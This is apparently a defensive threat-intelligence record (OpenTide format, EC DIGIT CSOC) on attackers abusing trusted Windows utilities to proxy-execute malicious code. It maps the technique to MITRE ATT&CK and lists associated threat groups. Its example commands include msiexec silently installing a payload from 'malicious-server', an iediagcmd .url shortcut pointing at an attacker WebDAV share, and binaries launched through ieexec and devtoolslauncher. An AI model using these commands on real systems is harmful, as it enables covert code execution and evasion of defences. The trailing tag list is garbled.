

# ☣️ Leverage Windows Utilities for Proxy Execution of Malicious Code

🔥 **Criticality:Medium** ❗ : A Medium priority incident may affect public health or safety, national security, economic security, foreign relations, civil liberties, or public confidence. 

🚦 **TLP:CLEAR** ⚪ : Recipients can spread this to the world, there is no limit on disclosure.


🗡️ **ATT&CK Techniques** [T1218 : System Binary Proxy Execution](https://attack.mitre.org/techniques/T1218 'Adversaries may bypass process andor signature-based defenses by proxying execution of malicious content with signed, or otherwise trusted, binaries B')


---

`🔑 UUID : 426a0ab5-66e7-4149-82b0-6357a1cf4b4b` **|** `🏷️ Version : 1` **|** `🗓️ Creation Date : 2024-11-04` **|** `🗓️ Last Modification : 2024-11-04` **|** `Sharing Organisation : {'uuid': '56b0a0f0-b0bc-47d9-bb46-02f80ae2065a', 'name': 'EC DIGIT CSOC'}` **|** `🧱 Schema Identifier : tvm::2.0`


## 👁️ Description

> Threat actors frequently exploit legitimate Windows utilities to execute malicious 
> code covertly, a technique known as "Living off the Land" (LotL). 
> By using trusted system binaries, attackers can bypass security measures that focus 
> on untrusted or unusual processes, thereby reducing the likelihood of detection.
> 
> ### 1. Ieexec.exe
> 
> **Description**: A utility that executes .NET programs. Threat actors can use ieexec.exe 
> to run malicious executables under the guise of Internet Explorer components.
> 
> Example:
> 
> ```
> ieexec.exe C:\path\to\malicious.exe
> ```
> 
> ### 2. Ie4uinit.exe
> 
> **Description**: Initializes user-specific settings for Internet Explorer. 
> Can be misused to execute INF files.
> 
> Example:
> 
> ```
> ie4uinit.exe -UserIconConfig
> ```
> 
> ### 3. Msiexec.exe
> 
> **Description**: Used for installing, modifying, and performing operations 
> on Windows Installer packages. Threat actors can execute malicious MSI packages or scripts.
> 
> Example:
> 
> ```
> msiexec.exe /q /i http://malicious-server/payload.msi
> ```
> 
> ### 4. Pcwrun.exe
> 
> **Description**: Part of the Performance Counters for Windows. 
> It can be exploited to run scripts or executables under certain conditions.
> 
> Example:
> 
> ```
> Pcwrun.exe /../../$(calc).exe
> ```
> 
> ### 5. DevToolsLauncher.exe
> 
> **Description**: Associated with Visual Studio development tools. 
> It can be abused to execute code or scripts in the context of development environments.
> 
> Example:
> 
> > Execute any binary with given arguments and it will call developertoolssvc.exe. 
> developertoolssvc is actually executing the binary.
> 
> ```
> devtoolslauncher.exe LaunchForDeploy [PATH_TO_BIN] "argument here" test
> ```
> 
> ### 6. Iediagcmd.exe
> 
> **Description**: Diagnostics Utility for Internet Explorer
> It can be used to execute binary pre-planted.
> 
> Example:
> 
> A .url file is sent to the victim or planted on disk.
> It sets the WorkingDirectory to \\attacker.webdav.server\share
> iediagcmd.exe tries to launch other tools like route.exe, 
> netsh.exe, or CustomShellHost.exe.
> 
> ```
> [InternetShortcut]
> URL=C:\\Program Files\\Internet Explorer\\iediagcmd.exe
> WorkingDirectory=\\\\192.168.8.200@80\\payload
> IconFile=C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe
> IconIndex=13
> ShowCommand=7
> ```


## 🖥️ Terrain 

 > Threat actors must have access to a Windows system with user-level privileges 
> where Windows utilities are available.
> 

---

## 🕸️ Relations


### 🐲 Actors sightings 

| Actor              | Description                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  | Aliases                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                | Source                     | Sighting               | Reference                |
|:-------------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:---------------------------|:-----------------------|:-------------------------|
| [Enterprise] APT29 | [APT29](https://attack.mitre.org/groups/G0016) is threat group that has been attributed to Russia's Foreign Intelligence Service (SVR).(Citation: White House Imposing Costs RU Gov April 2021)(Citation: UK Gov Malign RIS Activity April 2021) They have operated since at least 2008, often targeting government networks in Europe and NATO member countries, research institutes, and think tanks. [APT29](https://attack.mitre.org/groups/G0016) reportedly compromised the Democratic National Committee starting in the summer of 2015.(Citation: F-Secure The Dukes)(Citation: GRIZZLY STEPPE JAR)(Citation: Crowdstrike DNC June 2016)(Citation: UK Gov UK Exposes Russia SolarWinds April 2021)In April 2021, the US and UK governments attributed the [SolarWinds Compromise](https://attack.mitre.org/campaigns/C0024) to the SVR; public statements included citations to [APT29](https://attack.mitre.org/groups/G0016), Cozy Bear, and The Dukes.(Citation: NSA Joint Advisory SVR SolarWinds April 2021)(Citation: UK NSCS Russia SolarWinds April 2021) Industry reporting also referred to the actors involved in this campaign as UNC2452, NOBELIUM, StellarParticle, Dark Halo, and SolarStorm.(Citation: FireEye SUNBURST Backdoor December 2020)(Citation: MSTIC NOBELIUM Mar 2021)(Citation: CrowdStrike SUNSPOT Implant January 2021)(Citation: Volexity SolarWinds)(Citation: Cybersecurity Advisory SVR TTP May 2021)(Citation: Unit 42 SolarStorm December 2020) | Blue Kitsune, Cozy Bear, CozyDuke, Dark Halo, IRON HEMLOCK, IRON RITUAL, Midnight Blizzard, NOBELIUM, NobleBaron, SolarStorm, The Dukes, UNC2452, UNC3524, YTTRIUM                                                                                                                                                                                                                                                                                                                                                                                     | 🗡️ MITRE ATT&CK Groups     | No documented sighting | No documented references |
| UNC2452            | Reporting regarding activity related to the SolarWinds supply chain injection has grown quickly since initial disclosure on 13 December 2020. A significant amount of press reporting has focused on the identification of the actor(s) involved, victim organizations, possible campaign timeline, and potential impact. The US Government and cyber community have also provided detailed information on how the campaign was likely conducted and some of the malware used.  MITRE’s ATT&CK team — with the assistance of contributors — has been mapping techniques used by the actor group, referred to as UNC2452/Dark Halo by FireEye and Volexity respectively, as well as SUNBURST and TEARDROP malware.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            | DarkHalo, StellarParticle, NOBELIUM, Solar Phoenix, Midnight Blizzard                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  | 🌌 MISP Threat Actor Galaxy | No documented sighting | No documented references |
| [ICS] FIN7         | [FIN7](https://attack.mitre.org/groups/G0046) is a financially-motivated threat group that has been active since 2013. [FIN7](https://attack.mitre.org/groups/G0046) has primarily targeted the retail, restaurant, hospitality, software, consulting, financial services, medical equipment, cloud services, media, food and beverage, transportation, and utilities industries in the U.S. A portion of [FIN7](https://attack.mitre.org/groups/G0046) was run out of a front company called Combi Security and often used point-of-sale malware for targeting efforts. Since 2020, [FIN7](https://attack.mitre.org/groups/G0046) shifted operations to a big game hunting (BGH) approach including use of [REvil](https://attack.mitre.org/software/S0496) ransomware and their own Ransomware as a Service (RaaS), Darkside. FIN7 may be linked to the [Carbanak](https://attack.mitre.org/groups/G0008) Group, but there appears to be several groups using [Carbanak](https://attack.mitre.org/software/S0030) malware and are therefore tracked separately.(Citation: FireEye FIN7 March 2017)(Citation: FireEye FIN7 April 2017)(Citation: FireEye CARBANAK June 2017)(Citation: FireEye FIN7 Aug 2018)(Citation: CrowdStrike Carbon Spider August 2021)(Citation: Mandiant FIN7 Apr 2022)                                                                                                                                                                                            | Carbon Spider, ELBRUS, GOLD NIAGARA, ITG14, Sangria Tempest                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            | 🗡️ MITRE ATT&CK Groups     | No documented sighting | No documented references |
| FIN7               | Groups targeting financial organizations or people with significant financial assets.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        | CARBON SPIDER, GOLD NIAGARA, Calcium, ATK32, G0046, G0008, Coreid, Carbanak, Sangria Tempest, ELBRUS, Carbon Spider, JokerStash                                                                                                                                                                                                                                                                                                                                                                                                                        | 🌌 MISP Threat Actor Galaxy | No documented sighting | No documented references |
| [ICS] APT38        | [APT38](https://attack.mitre.org/groups/G0082) is a North Korean state-sponsored threat group that specializes in financial cyber operations; it has been attributed to the Reconnaissance General Bureau.(Citation: CISA AA20-239A BeagleBoyz August 2020) Active since at least 2014, [APT38](https://attack.mitre.org/groups/G0082) has targeted banks, financial institutions, casinos, cryptocurrency exchanges, SWIFT system endpoints, and ATMs in at least 38 countries worldwide. Significant operations include the 2016 Bank of Bangladesh heist, during which [APT38](https://attack.mitre.org/groups/G0082) stole $81 million, as well as attacks against Bancomext (Citation: FireEye APT38 Oct 2018) and Banco de Chile (Citation: FireEye APT38 Oct 2018); some of their attacks have been destructive.(Citation: CISA AA20-239A BeagleBoyz August 2020)(Citation: FireEye APT38 Oct 2018)(Citation: DOJ North Korea Indictment Feb 2021)(Citation: Kaspersky Lazarus Under The Hood Blog 2017)North Korean group definitions are known to have significant overlap, and some security researchers report all North Korean state-sponsored cyber activity under the name [Lazarus Group](https://attack.mitre.org/groups/G0032) instead of tracking clusters or subgroups.                                                                                                                                                                                                   | BeagleBoyz, Bluenoroff, COPERNICIUM, NICKEL GLADSTONE, Sapphire Sleet, Stardust Chollima                                                                                                                                                                                                                                                                                                                                                                                                                                                               | 🗡️ MITRE ATT&CK Groups     | No documented sighting | No documented references |
| Lazarus Group      | Since 2009, HIDDEN COBRA actors have leveraged their capabilities to target and compromise a range of victims; some intrusions have resulted in the exfiltration of data while others have been disruptive in nature. Commercial reporting has referred to this activity as Lazarus Group and Guardians of Peace. Tools and capabilities used by HIDDEN COBRA actors include DDoS botnets, keyloggers, remote access tools (RATs), and wiper malware. Variants of malware and tools used by HIDDEN COBRA actors include Destover, Duuzer, and Hangman.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       | Operation DarkSeoul, Dark Seoul, Hidden Cobra, Hastati Group, Andariel, Unit 121, Bureau 121, NewRomanic Cyber Army Team, Bluenoroff, Subgroup: Bluenoroff, Group 77, Labyrinth Chollima, Operation Troy, Operation GhostSecret, Operation AppleJeus, APT38, APT 38, Stardust Chollima, Whois Hacking Team, Zinc, Appleworm, Nickel Academy, APT-C-26, NICKEL GLADSTONE, COVELLITE, ATK3, G0032, ATK117, G0082, Citrine Sleet, DEV-0139, DEV-1222, Diamond Sleet, ZINC, Sapphire Sleet, COPERNICIUM, TA404, Lazarus group, BeagleBoyz, Moonstone Sleet | 🌌 MISP Threat Actor Galaxy | No documented sighting | No documented references |

### 🌊 OpenTide Objects
🚫 No related OpenTide objects indexed.


 --- 

### ⛓️ Threat Chaining




<details>
<summary>Expand chaining data</summary>

| ☣️ Vector                                                                                                                                                                                                                                                                                                                                    | ⛓️ Link                 | 🎯 Target                                                                                                                                                                                                                                               | ⛰️ Terrain                                                                                                                                                                                          | 🗡️ ATT&CK                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:------------------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| [Leverage Windows Utilities for Proxy Execution of Malicious Code](../Threat%20Vectors/☣️%20Leverage%20Windows%20Utilities%20for%20Proxy%20Execution%20of%20Malicious%20Code.md 'Threat actors frequently exploit legitimate Windows utilities to execute malicious code covertly, a technique known as Living off the Land LotL By usi...') | `atomicity::implements` | [Abuse of Windows Utilities](../Threat%20Vectors/☣️%20Abuse%20of%20Windows%20Utilities.md 'Advanced threat actors frequently abuse legitimate Windows utilities to execute malicious code, evade detection, and maintain persistence This techniq...') | Adversaries must have access to a Windows environment where they can execute  built-in utilities. Limited user privileges may suffice,  but administrative privileges enhance the potential impact. | [T1218](https://attack.mitre.org/techniques/T1218 'Adversaries may bypass process andor signature-based defenses by proxying execution of malicious content with signed, or otherwise trusted, binaries B'), [T1197](https://attack.mitre.org/techniques/T1197 'Adversaries may abuse BITS jobs to persistently execute code and perform various background tasks Windows Background Intelligent Transfer Service BITS'), [T1218.004](https://attack.mitre.org/techniques/T1218/004 'Adversaries may use InstallUtil to proxy execution of code through a trusted Windows utility InstallUtil is a command-line utility that allows for ins'), [T1563](https://attack.mitre.org/techniques/T1563 'Adversaries may take control of preexisting sessions with remote services to move laterally in an environment Users may use valid credentials to log i'), [T1140](https://attack.mitre.org/techniques/T1140 'Adversaries may use Obfuscated Files or InformationhttpsattackmitreorgtechniquesT1027 to hide artifacts of an intrusion from analysis They may require'), [T1218.010](https://attack.mitre.org/techniques/T1218/010 'Adversaries may abuse Regsvr32exe to proxy execution of malicious code Regsvr32exe is a command-line program used to register and unregister object li'), [T1218.005](https://attack.mitre.org/techniques/T1218/005 'Adversaries may abuse mshtaexe to proxy execution of malicious hta files and Javascript or VBScript through a trusted Windows utility There are severa') |

</details>
&nbsp; 


---

## Model Data

#### **⛓️ Cyber Kill Chain**

 > Cyber attacks are typically phased progressions towards strategic objectives. The Unified Kill Chains provides insight into the tactics that hackers employ to attain these objectives. This provides a solid basis to develop (or realign) defensive strategies to raise cyber resilience.

 [`⚡ Execution`](https://www.unifiedkillchain.com/assets/The-Unified-Kill-Chain.pdf) : Techniques that result in execution of attacker-controlled code on a local or remote system.

---

#### **🛰️ Domains**

 > Infrastructure technologies domain of interest to attackers.

 `🏢 Enterprise` : Generic databases, applications, machines and systems that are usually on premises or on Cloud traditional VMs.

---

#### **🎯 Targets**

 > Granular delimited technical entities holding a value to the organization, that are targeted by adversaries. They might be also involved in the detection coverage as the target of log collection. Partially inspired by Veris.

  - [`🖥️ Workstations`](http://veriscommunity.net/enums.html#section-asset) : Placeholder
 - [`💻 Laptop`](http://veriscommunity.net/enums.html#section-asset) : User Device - Laptop
 - [`🛠️ Virtual Machines`](http://veriscommunity.net/enums.html#section-asset) : Placeholder
 - [`🖥️ Public-Facing Servers`](http://veriscommunity.net/enums.html#section-asset) : Placeholder

---

#### **💿 Platforms concerned**

 > Actual technologies used by the organization that will be exploited by adversaries during a successful attack, and eventually of relevance for detection. Are named by commercial designation.

 ` Windows` : Placeholder

---

#### **💣 Severity**

 > The severity summarizes the overall danger of incident the vector will provoke, and is to be derived (WIP) from impact, leverage, and difficulty to execute.

 [`⚠️ Significant incident`](https://www.ncsc.gov.uk/news/new-cyber-attack-categorisation-system-improve-uk-response-incidents) : A cyber attack which has a serious impact on a large organisation or on wider / local government, or which poses a considerable risk to central government or (inter)national essential services.

---

#### **🪄 Leverage acquisition**

 > Technical aftermath of the attack from the target perspective, differentiated from impact as it does not consider the value of the consequence, only what increased control the vector execution provides to the adversary.

  - [`💅 Elevation of privilege`](https://owasp.org/www-community/Threat_Modeling_Process#stride) : Capacity to augment leverage over the target system by upgrading the compromised access rights
 - [`🐒 Tampering`](https://owasp.org/www-community/Threat_Modeling_Process#stride) : Threat action intending to maliciously change or modify persistent data, such as records in a database, and the alteration of data in transit between two computers over an open network, such as the Internet.
 - [`👁️‍🗨️ Information Disclosure`](https://owasp.org/www-community/Threat_Modeling_Process#stride) : Threat action intending to read a file that one was not granted access to, or to read data in transit.

---

#### **💥 Impact**

 > Analysis of the threat vector from the organizational perspective, in non technical term. This aims at putting a clear denomination on what the attacker will actually be able to act upon if the threat vector is realized.

  - [`🔓 Data Breach`](http://veriscommunity.net/enums.html#section-impact) : Non-public information has been accessed from the outside, and successfully extracted.
 - [`🛑 Business disruption`](http://veriscommunity.net/enums.html#section-impact) : Business disruption
 - [`🌍 Reputational Damages`](http://veriscommunity.net/enums.html#section-impact) : Damages to the organization public view may be achieved by using directly the access gained, or indirectly with data gathered.

---

#### **🎲 Vector Viability**

 > Described with estimative language (likelyhood probability), describes how likely the analyst believes the vector to actually be realized on the organization infrastructure. Estimative language describes quality and credibility of underlying sources, data, and methodologies based Intelligence Community Directive 203 (ICD 203) and JP 2-0, Joint Intelligence.

 [`🧐 Likely`](https://www.dni.gov/files/documents/ICD/ICD%20203%20Analytic%20Standards.pdf) : Probable (probably) - 55-80%

---


### 🔗 References


**🕊️ Publicly available resources**

- [_1_] https://lolbas-project.github.io/
- [_2_] https://www.whitecloudsecurity.com/news/2025/June/Stealth-Falcon-Living-off-the-Land-Attack-Zero-Day/

[1]: https://lolbas-project.github.io/
[2]: https://www.whitecloudsecurity.com/news/2025/June/Stealth-Falcon-Living-off-the-Land-Attack-Zero-Day/

---

#### 🏷️ Tags

#-, #-, #-, #
, #
, ##, ##, ##, ##, # , #🏷, #️, # , #T, #a, #g, #s, #
, #


